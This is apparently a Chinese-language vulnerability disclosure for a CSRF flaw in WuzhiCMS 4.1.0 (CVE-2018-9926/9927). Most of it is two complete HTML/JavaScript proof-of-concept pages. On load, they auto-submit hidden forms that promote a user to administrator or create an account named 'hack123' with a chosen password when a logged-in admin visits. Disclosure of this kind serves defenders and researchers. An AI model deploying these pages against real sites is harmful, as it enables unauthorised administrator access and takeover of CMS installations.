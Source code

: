 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|五指CMS 4.1.0存在CSRF漏洞可增加管理员账户|2018-04-10|套哥（taoge@5ecurity.cn）|[https://github.com/wuzhicms/wuzhicms](https://github.com/wuzhicms/wuzhicms) | [https://github.com/wuzhicms/wuzhicms](https://github.com/wuzhicms/wuzhicms) |4.1.0| [CVE-2018-9926](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9926)/[CVE-2018-9927](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9927)|  

#### 漏洞概述  

> 五指CMS 4.1.0版本存在一个CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可将普通用户提成为管理员权限。五指CMS是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/wuzhicms/wuzhicms/issues/128)告知作者。   


### POC实现代码如下：  

> CSRF测试页面代码一如下：  

``` html
<html><body>
    <script type="text/javascript">
    function post(url,fields)
    {
    var p = document.createElement("form");
    p.action = url;
    p.innerHTML = fields;
    p.target = "_self";
    p.method = "post";
    document.body.appendChild(p);
    p.submit();
    }
    function csrf_hack()
    {
    var fields;
    
    fields += "<input type='hidden' name='form[role][]' value='1' />";
    fields += "<input type='hidden' name='form[username]' value='hack123' />"; 
    fields += "<input type='hidden' name='form[password]' value='' />"; 
    fields += "<input type='hidden' name='form[truename]' value='taoge@5ecurity' />"; 
    
    var url = "http://127.0.0.1/www/index.php?m=core&f=power&v=add&&_su=wuzhicms&_menuid=61&_submenuid=62&submit=提交";
    post(url,fields);
    }
    window.onload = function() { csrf_hack();}
    </script>
    </body></html>
```

> CSRF测试页面代码二如下：  

``` html
<html><body>
<script type="text/javascript">
function post(url,fields)
{
var p = document.createElement("form");
p.action = url;
p.innerHTML = fields;
p.target = "_self";
p.method = "post";
document.body.appendChild(p);
p.submit();
}
function csrf_hack()
{
var fields;

fields += "<input type='hidden' name='info[username]' value='hack123' />";
fields += "<input type='hidden' name='info[password]' value='hacktest' />"; 
fields += "<input type='hidden' name='info[pwdconfirm]' value='hacktest' />"; 
fields += "<input type='hidden' name='info[email]' value='taoge@5ecurity.cn' />"; 
fields += "<input type='hidden' name='info[mobile]' value='' />"; 
fields += "<input type='hidden' name='modelids[]' value='10' />"; 
fields += "<input type='hidden' name='info[groupid]' value='3' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />";
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='avatar' value='' />"; 
fields += "<input type='hidden' name='islock' value='0' />";
fields += "<input type='hidden' name='sys_name' value='0' />";
fields += "<input type='hidden' name='info[birthday]' value='' />"; 
fields += "<input type='hidden' name='info[truename]' value='' />"; 
fields += "<input type='hidden' name='info[sex]' value='0' />";
fields += "<input type='hidden' name='info[marriage]' value='0' />";

var url = "http://127.0.0.1/www/index.php?m=member&f=index&v=add&_su=wuzhicms&_menuid=30&_submenuid=74&submit=提交";
post(url,fields);
}
window.onload = function() { csrf_hack();}
</script>
</body></html>
```